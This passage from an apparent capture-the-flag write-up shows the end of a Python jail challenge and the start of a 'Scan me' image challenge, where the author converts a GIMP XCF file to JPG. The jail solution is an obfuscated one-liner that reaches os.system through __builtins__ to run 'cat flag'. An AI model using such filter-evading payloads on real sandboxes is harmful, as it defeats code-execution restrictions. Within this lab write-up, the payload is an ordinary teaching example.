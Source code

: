```python
__builtins__.__dict__['IMPORT'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag')
```

![cat flag](/assets/img/umass/ekrpat/cat.png)

---  
  

### 4. <a id="scan_me" style="text-decoration:none;">Scan me [misc]</a>

The challenge statement:  
> The top layer is a lie.  
> <a href="/assets/img/umass/scanme/scan_me.xcf" download>scan_me.xcf</a>  

Lookup: The XCF, short for eXperimental Computing Facility, is the native image format of the GIMP image-editing program. I don't have the GIMP so I have used an online tool to convert XCF to JPG.

<img src="/assets/img/umass/scanme/scan_me.jpg" alt="Scan me JPG" width="100"/>
